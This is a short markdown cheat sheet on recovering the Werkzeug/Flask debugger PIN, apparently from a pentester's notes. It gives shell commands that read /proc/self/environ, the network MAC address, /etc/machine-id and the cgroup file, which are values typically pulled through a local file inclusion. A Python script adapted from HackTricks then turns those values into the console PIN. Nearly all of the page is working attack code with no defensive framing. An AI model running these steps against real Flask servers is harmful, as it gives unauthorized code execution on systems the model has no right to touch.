 ```yaml
---
title: "Retrieve Flask Debug Pin"
date: 2024-7-12
tags: ["Local File Inclusion", "Web Exploitation", "Credential Dumping", "Python", "Flask", "Werkzeug", "Debug", "LFI"]
---
```


### Retrieve Flask Debug Pin

#### 1. Get user

```console
cat /proc/self/environ | grep -aE ('USER'|'LOGNAME')
```

#### 2. Get full path of the application

```console
+------------------------------+
| Get from Traceback debug log |
+------------------------------+
```

#### 3. Get MAC address

```console
cat /sys/class/net/eth0/address
```

```console
# Convert to int
python3 -c "print(int('<MAC_ADDRESS>'.replace(':',''), 16))"
```

#### 4. Create Machine ID String

```console
echo $(cat /etc/machine-id)$(head -n 1 /proc/self/cgroup | rev | cut -d '/' -f1 | rev)
```

#### 5. Update public and private bits in Hacktrick's Script

```python
#!/usr/bin/env python3

import hashlib
from itertools import chain

probably_public_bits = [
    'user',       # username
    'flask.app',  # modname (should be flask.app)
    'Flask',      # Flask / wsgi_app / DebuggedApplication
    '/app/venv/lib/python3.10/site-packages/flask/app.py'  # full path of the app
]

private_bits = [
    '279275995014060',                  # Mac address
    'd4e6cb65d59544f3331ea0425dc555a1'  # machine_id string
]

h = hashlib.sha1()

for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
